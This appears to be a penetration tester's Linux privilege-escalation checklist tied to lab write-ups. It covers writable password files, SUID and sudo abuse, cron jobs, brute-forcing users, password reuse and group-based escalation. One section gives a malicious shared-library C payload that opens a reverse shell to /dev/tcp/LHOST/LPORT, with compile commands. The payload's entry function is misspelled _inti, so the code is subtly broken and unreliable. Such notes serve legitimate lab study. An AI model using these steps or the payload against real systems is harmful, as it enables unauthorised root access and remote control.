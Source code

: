 # Linux Privilege Escallation

- [ ] Writable `/etc/shadow`
- [ ] Writable `/etc/passwd`
- [ ] Check user's history
- [ ] Check user's `env`
- [ ] Check user's `.bashrc`
- [ ] SUID Bit
- [ ] `sudo -l`
- [ ] Cron Job
  - [ ] There may be missing library for binary file we can write create and write it [HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)
- [ ] Get the usernames from `/home` start brute force for the users
- [ ] If you come from web check `config.php`
- [ ] Look for services like `mysql`
- [ ] Look for internal ports
- [ ] Password Reuse (get password from different resources like db, config files and reuse them)
- [ ] Username and the password the same like `patrick:patrick`
- [ ] Create a key pair using `ssh-keygen` command and then change `id_rsa.pub` file to `authorized_keys` and add this file
- [ ] Check group of the user:
  - [ ] if it is `fail2ban` group [fail2ban PrivEsc](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7) (PG-Practice Fail)
  - [ ] if it is `filter` group [filter PrivEsc](https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/postfish)
    - [ ] `find / -group filter 2>/dev/null`
  - [ ] if it is `docker` group [docker PrivSec](https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/peppo)
- [ ] Service **`find /etc -type f -writable 2> /dev/null`** https://al1z4deh.medium.com/proving-grounds-hetemit-8469d0a3f189


## Restricted Bash (RBASH)
- [ ] Check available commands `echo $PATH`
- [ ] 

## Interesting Group
```
find / -group filter 2>/dev/null
```

## Binary Missing Component
1. You find a binary file that may be run by root user (SUID or SUDO or CronJob)
2. Try to run it
3. If it gives missing like "cannot open shared object file"
4. Check path `LD_LIBRARY_PATH` in `/etc/crontab` for example.
5. Find writable directory
```
find / -type d -writable 2>/dev/null
```
6. Match writable directories with PATH
7. Write a malicious .c file
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _inti() {
  setgid(0);
  setuid(0);
  system("bash -i >& /dev/tcp/LHOST/LPORT 0>&1");
}
```
8. Compile it
```
gcc -shared -fPIC -nostartfiles exploit.c -o exploit.so
```
9. Put it to the target place
10. Run the binary

## Tar
https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c

